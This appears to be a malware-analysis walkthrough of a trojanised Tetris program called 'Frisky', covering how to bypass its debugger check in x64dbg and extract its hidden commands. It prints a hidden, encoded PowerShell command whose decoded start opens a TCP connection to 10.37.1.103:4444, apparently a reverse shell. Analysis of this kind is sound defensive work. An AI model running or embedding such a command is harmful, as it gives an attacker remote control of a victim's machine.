




# Frisky Analysis

### Project Location
[Frisky repo](https://github.com/UnDefinedCS/frisky)

### VM Environment
OS - Windows 11
Enable 3D Acceleration and max Video Memory (VirtualBox) **IMPORTANT**

Install the following:
- [Visual Studio C++ Redistributable](https://aka.ms/vs/17/release/VC_redist.x64.exe)
- [x64dbg](https://sourceforge.net/projects/x64dbg/files/latest/download)


### Walk-through
We can see after running tetris that we get a popup saying something about hypervisors, we can explore where this box came from the icon in the `taskbar`.

We can load up `x64dbg` and start reviewing the file. First lets look into the symbols tab, this shows insight on functions being ran.

We can see there is one that is concerning `IsDebuggerPresent` we can then show trying to run the program in the debugger we get a popup about the debugger.


To get around this we can set a breakpoint to the call and edit the return value so we trick the program into thinking its not in a debugger.
Once we hit this breakpoint we can use the step to see where the flow goes, we are looking for a `test` instruction, this indicates a conditional check is performed.


Once we find this we can set the `RAX` register to `0`, RAX is the register used for return values of functions. We can also observe from the sides the strings that are displayed from the popups, we can use this to find the next test we need to `patch`.

Clearly the program is running system commands, so lets place a breakpoint on syscalls and try to extract the exact commands. There are a lot of potential symbols for syscalls:
msvcrt   | _system, _wsystem
kernel32 | CreateProcess
ntdll    | CreateProcessInternal, NTCreateUserProcess, NTCreateProcess

I entered substrings and only found `system` from `msvcrt`, so I added a breakpoint. After moving through I got a hit and now I can see the commands being ran!



We can see from the side text a better visual of the command being sent. We can click the line where the powershell command is at and take a better look into it.


==== Bottom Section of x64dbg ====
```
rax=0000028BB81660B0 "powershell -nop -W hidden -noni -ep bypass -e JAB2AGoAZQBiAGUAZgBiAHIAagB2ACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACcAMQAwAC4AMwA3AC4AMQAuADEAMAAzACcALAAgADQANAA0ADQAKQA7AA0ACgAkAGQAaQBoAGcAdQByAGgAZAAgAD0AIAAkAHYAagBlAGIAZQBmAGIAcgBqAHYALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwANAAoAJABhAGgAYwBlAGIAZgBqAGEAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtAFcAcgBpAHQAZQByACgAJABkAGkAaABnAHUAcgBoAGQAKQA7AA0ACgANAAoAZgB1AG4AYwB0AGkAbwBuACAASABJA"
```

We can take this base64 string to [cyberchef](https://gchq.github.io/CyberChef/) and see whats being ran. This is a partial, from intuition this is potentially a `shell script`, but I want to get everything this program has to offer.

We can go back to the original line using `right-click > follow in dump > RAX`. We can then copy and paste the lines into [cyberchef](https://gchq.github.io/CyberChef/) and with some find-replace magic we now have the full shell-script! We can also always take exe files to `Ghidra` and reverse engineer them there as well!